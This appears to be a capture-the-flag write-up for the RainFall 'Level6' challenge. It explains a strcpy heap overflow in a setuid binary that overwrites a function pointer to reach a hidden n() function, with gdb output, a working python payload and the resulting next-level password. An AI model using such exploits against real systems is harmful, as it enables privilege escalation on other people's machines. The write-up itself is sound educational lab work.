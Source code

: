 # Level6

We can find an executable who segfault without parameter and print "Nope\n" with.
```
level6@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 a
Nope
level6@RainFall:~$
```
After analyze it with gdb we can see that the `main()` function call a function named `m()` but there is also a non-called `n()` function.  
Lets talk about the `main()`.   
<br/>

There is a call to malloc(64) and then strcpy argv[1] into this area on the heap.
After that we can see a call to a useless `m()` function also stored in a heap buffer (malloc(4)) who simply call `puts()`.  
But there is a call to `system()` in a usefull non-called `n()` function.  
We need to execute the `n()` function.  
The first argument (argv[1]) is not limited and, as we said before, there is a call to strcpy() wich is vulnerable to buffer overflow.  
We should create a payload long enough to be copied into the second malloc data area.  
We'll have to write over `eip`, so first get the offset :
```
level6@RainFall:~$ gdb level6
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
(gdb) info register eip
eip            0x41346341       0x41346341
(gdb)
```
Thanks to the pattern generator we found an offset of 72.  
Our final attack buffer will look like :  
- pad of arbitrary data : 72 bytes
- `n()` address         : 4 bytes
```
level6@RainFall:~$ python -c 'print "A" * 72 + "\x54\x84\x04\x08"' > /tmp/exploit
level6@RainFall:~$ cat /tmp/exploit | ./level6
Segmentation fault (core dumped)
level6@RainFall:~$
```
Obviously.. The usual method can't work because the program segfault without parameter
```
level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
level6@RainFall:~$ su level7
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7
level7@RainFall:~$
```
Level6 passed!
